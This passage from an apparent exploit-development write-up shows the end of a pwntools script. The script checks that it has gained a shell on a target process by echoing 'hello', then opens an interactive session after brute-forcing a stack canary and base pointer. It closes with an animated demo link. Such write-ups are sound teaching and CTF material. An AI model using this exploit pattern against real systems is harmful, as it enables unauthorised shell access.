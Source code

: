```python
        command = b"echo hello\n"
        io.sendline(command)
        mssg = io.clean()
        if b"hello" in mssg:
            # drop into interactive shell session
            io.interactive()
        io.close()


brute_win_func(rbp, canary)
```

### Exploit in Action -

![exploit_gif](https://res.cloudinary.com/dkojbf7tx/image/upload/v1635944989/BlogImages/exikme8h7gvfulxbd8sz.gif)

